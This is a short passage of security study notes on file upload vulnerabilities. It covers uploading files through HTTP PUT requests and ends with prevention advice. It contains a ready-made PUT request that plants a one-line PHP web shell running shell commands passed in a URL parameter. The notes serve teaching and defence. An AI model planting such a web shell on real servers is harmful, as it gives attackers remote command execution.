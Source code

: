 ### Uploading Files using PUT
- It's worth noting that some web servers may be configured to support `PUT` requests. If appropriate defenses aren't in place, this can provide an alternative means of uploading malicious files, even when an upload function isn't available via the web interface.

```js
PUT /images/exploit.php HTTP/1.1  
Host: vulnerable-website.com  
Content-Type: application/x-httpd-php  
Content-Length: 49  
  
<?php echo system($_GET['cmd']); ?>
```

- we can send options methods to all urls and see if PUT methods is allowed or not


## Prevention against File upload vulnearbilities
- Check the file extension against a whitelist of permitted extensions rather than a blacklist of prohibited ones. It's much easier to guess which extensions you might want to allow than it is to guess which ones an attacker might try to upload.
- Make sure the filename doesn't contain any substrings that may be interpreted as a directory or a traversal sequence (`../`).
-  Rename uploaded files to avoid collisions that may cause existing files to be overwritten.
-  Do not upload files to the server's permanent filesystem until they have been fully validated
-  As much as possible, use an established framework for preprocessing file uploads rather than attempting to write your own validation mechanisms